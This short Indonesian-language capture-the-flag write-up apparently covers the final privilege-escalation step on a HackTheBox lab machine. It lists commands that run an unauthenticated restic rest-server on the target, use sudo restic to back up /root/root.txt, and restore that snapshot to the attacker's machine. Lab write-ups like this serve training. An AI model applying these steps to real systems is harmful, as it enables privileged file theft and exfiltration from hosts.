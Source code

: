 -Cari di github sebuah tool dengan nama rest-server

-Selesaikan instalasi di mesin lokal, dan kirim executablenya melalui secure copy rsa lagi ke folder /tmp di www-data melalui bolt@10.10.10.159:/tmp

-Masih di folder yang sama yaitu /tmp, mari kita bikin directory bernama misalnya /myrepo

-restic init -r /tmp/myrepo/ (untuk melakukan inisialisasi repository dengan path yang sudah ditentukan, akan mendapatkan response berupa “created restic repository f1043e78fa at /tmp/myrepo”)

-./rest-server –no-auth –path /tmp/myrepo/ & (untuk menyalakan server restic tanpa authentikasi di path yang sudah ditentukan dan -menaruh prosesnya di background)

-sudo restic backup -r rest:http://127.0.0.1:8000 /root/root.txt (melakukan backup root/root.txt ke localhost, akan mendapatkan -response berupa snapshot 27e5cf86 saved)

-pergi ke mesin lokal, dan tarik backup dengan restic restore 27e5cf86 -r rest:http://10.10.10.159:8000 –target /root/Documents/htb/registry/

![Image](img/22.jpg)

# Rooted !